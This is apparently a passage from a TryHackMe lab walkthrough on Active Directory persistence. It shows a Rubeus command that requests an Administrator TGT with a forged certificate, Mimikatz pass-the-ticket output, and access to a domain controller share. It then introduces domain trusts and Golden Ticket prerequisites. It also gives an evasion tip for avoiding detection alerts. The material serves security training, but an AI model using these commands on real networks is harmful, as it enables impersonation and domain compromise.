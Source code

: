- **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
- **/enctype** -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
- **/certificate** - Path to the certificate we have generated
- **/password** - The password for our certificate file
- **/outfile** - The file where our TGT will be output to
- **/domain** - The FQDN of the domain we are currently attacking
- **/dc** - The IP of the domain controller which we are requesting the TGT from. Usually it is best to select a DC that has a CA service running

Once we execute the command, should receive our TGT~
```C:\THMTools> .\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:12.31.1.101```

Now we can use Mimikatz to load the TGT and authenticate to THMDC:

  
mimikatz # privilege::debug 
Privilege '20' OK 
mimikatz # kerberos::ptt administrator.kirbi
* File: 'administrator.kirbi': OK mimikatz # exit Bye! C:\Tools>dir \\THMDC.za.tryhackme.loc\c$\ Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows Volume Serial Number is 1634-22A9 Directory of \\THMDC.za.tryhackme.loc\c$ 01/04/2022 08:47 AM 103 delete-vagrant-user.ps1 04/30/2022 10:24 AM 154 dns_entries.csv 04/27/2022 10:53 PM 885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin 09/15/2018 08:19 AM <DIR> PerfLogs 03/21/2020 09:31 PM <DIR> Program Files 03/21/2020 09:28 PM <DIR> Program Files (x86) 04/27/2022 08:27 AM 1,423 thm-network-setup-dc.ps1 04/25/2022 07:13 PM <DIR> tmp 04/27/2022 08:22 AM <DIR> Users 04/25/2022 07:11 PM <SYMLINKD> vagrant [\\vboxsvr\vagrant] 04/27/2022 08:12 PM <DIR> Windows 7 File(s) 2,356,811 bytes 7 Dir(s) 50,914,541,568 bytes free

Domain Trusts

As discussed in the [AD Basics room](https://tryhackme.com/jr/activedirectorybasics), a forest is a collection of one or more domain trees inside an AD network. Domain Trusts are a mechanism for users in the network to gain access to other resources in the domain. For the most part, trusts outline how the domains inside of a forest communicate with each other. In some environments, trusts can be extended out to external domains and even forests in some cases.

There are two main types of trusts that can be configured between domains:

- Directional - The direction of the trust flows from a trusting domain to a trusted domain
- Transitive - The trust relationship expands beyond just two domains to include other trusted domains

Its common to have a root or parent domain in a forect. In ourcase this is tryhackme.loc. For each regional office, sub or child domains are created, such as za.tryhackme.loc or UK.tryhackme.loc. 


However, what if we want to generate our own TGTs to grant us access to everything? This is known as a Golden Ticket attack. In a Golden Ticket attack, we bypass the KDC altogether and create our own TGTs, essentially becoming a Ticket Granting Server (TGS). In order to forge TGTs, we need the following information:

- The FQDN of the domain
- The Security Identifier (SID) of the domain
- The username of the account we want to impersonate
- The KRBTGT password hash

The first three are usually easy to recover. The last one requires a domain compromise since the KRBTGT password hash is only stored on domain controllers. Luckily for us, we have just compromised the Tier 0 admins group with a forged certificate, so we are in a position to recover the KRBTGT password hash.

We will again use Mimikatz with a DC Sync to recover the KRBTGT password hash on THMSERVER2
```